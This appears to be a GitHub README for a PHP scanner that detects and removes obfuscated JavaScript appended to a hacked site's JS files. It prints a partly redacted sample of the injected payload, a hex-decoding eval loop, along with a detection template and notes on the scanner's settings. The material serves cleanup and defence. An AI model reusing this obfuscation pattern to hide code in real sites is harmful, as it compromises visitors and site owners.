 # php-site-scanner-for-js-inection
A PHP site scanner for identifying and repairing an attack where malicious javascript was added to existing javascript files.

## A robust scanner for a specific javascript injection

The javascript appended to existing javascript files was obfuscated. It looked something like this:


```
/*25a520a617147585c97ef01f04c898e3*/;(function(){var azesryri="";var nhhdsnkf="76e6f2c63297b69662
86397b7661220423206670441465[... redacted...]65306f73697466736f653e3c2f6469763e223b6f6356d56e4262
6f4792e6707056e64368696c4287232647293b7d7";for (var tndandrr=0;tndandrr<nhhdsnkf.length;tndandrr+=2) {azesryri=azesryri+parseInt(nhhdsnkf.substring(tndandrr,tndandrr+2),16)+",";}azesryri=azesryri.subst
ring(0,azesryri.length-1);eval(eval('String.fromCharCode('+azesryri+')'));})();/*25a520a617147585c97ef01f04c898e3*/
```

To identify if the malicious javascript is similar, look for this template:

```
32 character hexadecimal string surrounded by block style comments
;(function(){var {some variable}="";
var {another variable}= {payload of large hexadecimal string}
loop to decrypt
eval(eval('String.fromCharCode('+ {some variable}  +')'))
32 character hexadecimal string surrounded by block style comments
```

The intent is to allow for code to be executed based on paramaters from a POST variable.

## The Scan

Sections that are important to modify

```Line 82: if($count_of_infected_files > 20000)``` Edit this line to allow for larger recursion. Exits early, so as to not generate a super large page (for dry-run purposes). 2000 would likely be a full server. Limit to 100 or so for testing.

```Line 160:file_put_contents($this_file, $other_content);``` Do you really want to replace? Comment out until you are ready! This first one is for javascript files that appear to be completely replaced. Since the scanner removes this, the finished file is really small. It will replace the file with a console.log so you can remember to rebuild that individual file from the original source if necessary.
```Line 162: file_put_contents($this_file, $normal_other_content);``` Do you really want to replace? Comment out until you are ready! This is the master replace. Works on all larger files.

## Test!

The script is written to launch, not to test. Please do a dry run by adjusting the variables and code that are important, as seen in the section above.
